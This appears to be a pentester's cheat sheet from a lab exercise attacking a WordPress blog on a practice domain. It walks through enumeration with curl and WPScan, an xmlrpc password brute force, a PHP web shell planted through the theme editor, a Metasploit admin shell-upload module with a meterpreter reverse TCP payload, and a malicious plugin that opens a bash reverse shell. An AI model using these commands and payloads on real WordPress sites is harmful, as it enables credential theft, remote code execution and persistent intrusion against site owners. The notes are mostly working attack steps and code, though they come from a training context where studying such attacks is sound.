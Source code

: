 ### Enumeration

Using CURL:

```bash
curl -s http://blog.inlanefreight.local/robots.txt
curl -s http://blog.inlanefreight.local | grep WordPress
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
```

WPScan:

```bash
wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>

wpscan --url http://blog.inlanefreight.local --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```
### Attack

Login Bruteforce:

```bash
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Code Execution:

Edit existing page `Appearance -> Theme Editor` - select the appropriate theme, then select a php page e.g. `404.php`. Add this:

```bash
system($_GET[cmd]);
```

![[Pasted image 20250131151227.png]]

Now have code execution:

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Metasploit:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

Add the details:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.6     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```
### Custom Plugin

Create payload:

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```

Zip it up:

```bash
zip shell.zip shell.php
```

Then upload it - Click `Plugins -> Add New -> Upload Plugin -> select zip file -> Install Now` then `Active Plugin`.

### Vulnerable Plugins

Look at ExploitDB, or google to find suitable exploits.